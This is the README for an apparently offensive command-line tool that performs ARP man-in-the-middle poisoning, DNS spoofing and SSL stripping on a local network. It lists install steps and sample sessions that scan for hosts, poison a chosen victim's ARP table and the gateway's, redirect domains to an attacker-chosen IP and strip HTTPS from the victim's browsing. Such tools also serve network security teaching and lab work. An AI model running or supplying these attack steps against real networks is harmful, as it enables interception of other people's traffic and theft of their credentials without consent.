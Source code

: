 # ocs
This repository contains a command-line tool to perform ARP poisoning, DNS poisoning and SSL stripping attacks.

## Dependencies
A linux system using iptables and sysctl is required, as well as python 2.7 (e.g. in a virtual environment). 
Before first use, install the required python packages by:
```
# python -m pip install -r requirements.txt
```

## Example usage
To start the program, run:
```
# python cli.py
```
Note that root priviliges are required to modify packets.
The interface is automatically set to match the default gateway. It can also be set manually:
```
>>> set iface enp0s3
```
Before any attack, we first need to scan for hosts:
```
>>> scan
gateway at 192.168.18.1
0: host at 192.168.18.2
1: host at 192.168.18.3
2: host at 192.168.18.4
```

Now that we have the available hosts scanned, we can perform ARP poisoning and DNS poisoning attacks, with SSL stripping capabilities.

### ARP poisoning example

Let's say we want to perform a man-in-the-middle ARP spoofing/poisoning attack.

We simply run the command:
```
>>> arp mitm [host]
```
Now, a continuous stream of ARP packets is being sent out to the specified host and the gateway. Their ARP tables are poisoned such that all traffic will now go through our attacker machine.

If we want to stop the poisoning attack, we run:
```
>>> arp stop [host]
```
Now, the stream of ARP packets is no longer being sent out.

One final step to fully finish the ARP poisoning attack, is to restore the ARP tables of both the specified host and the gateway, by running:
```
>>> arp restore [host]
```

### DNS poisoning example

For the DNS poisoning attack, we first specify the desired URL/IP combinations:
```
>>> dns add 2
URL to spoof: *.example.com
IP address to lead to (leave empty for own IP address): 1.2.3.4
```
Next, we start the DNS poisoning attack:
```
>>> dns poison 2
DNS poisoning attack started
```
The DNS poisoning attack relies on a running MITM ARP poisoning attack in order to modify DNS responses. However, the tool will do this automatically.
We stop the DNS poisoning attack:
```
>>> dns stop 2
DNS poisoning attack stopped
```
We also need to stop the ARP poisoning attack that was started automatically:
```
>>> arp stop 2
```

### SSL stripping example

Before SSL stripping is possible, we have to run the ARP MITM poisoning attack so that all traffic goes through the attacker and can be stripped. 

We again run:
```
>>> arp mitm [host]
```

Then, we run:
```
>>> ssl strip [host]
```

This will run the SSL stripping script, which will automatically perform the stripping while the specified host browses the internet. 
